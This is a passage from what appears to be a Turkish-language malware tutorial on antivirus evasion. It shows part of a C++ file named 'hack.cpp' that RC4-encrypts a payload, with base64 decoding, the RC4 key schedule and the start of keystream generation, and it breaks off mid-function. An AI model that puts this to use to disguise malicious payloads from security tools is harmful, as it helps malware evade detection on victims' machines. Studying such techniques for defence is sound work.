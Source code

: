 ```cpp
//...
```

Sonuç olarak tam kodu elde ettik:    

```cpp
/*
hack.cpp
RC4 encrypt payload
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, 
unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

// swap
void swap(unsigned char *a, unsigned char *b) {
  unsigned char tmp;
  tmp = *a;
  *a = *b;
  *b = tmp;
}

// key-scheduling algorithm (KSA)
void KSA(unsigned char *s, unsigned char *key, int keyL) {
  int k;
  int x, y = 0;

  // initialize
  for (k = 0; k < 256; k++) {
    s[k] = k;
  }

  for (x = 0; x < 256; x++) {
    y = (y + s[x] + key[x % keyL]) % 256;
    swap(&s[x], &s[y]);
  }
  return;
}

// pseudo-random generation algorithm (PRGA)
unsigned char* PRGA(unsigned char* s, unsigned int messageL) {
  int i = 0, j = 0;
  int k;

  unsigned char* keystream;
  keystream = (unsigned char *)malloc(sizeof(unsigned char)*messageL);
  for(k = 0; k < messageL; k++) {
```
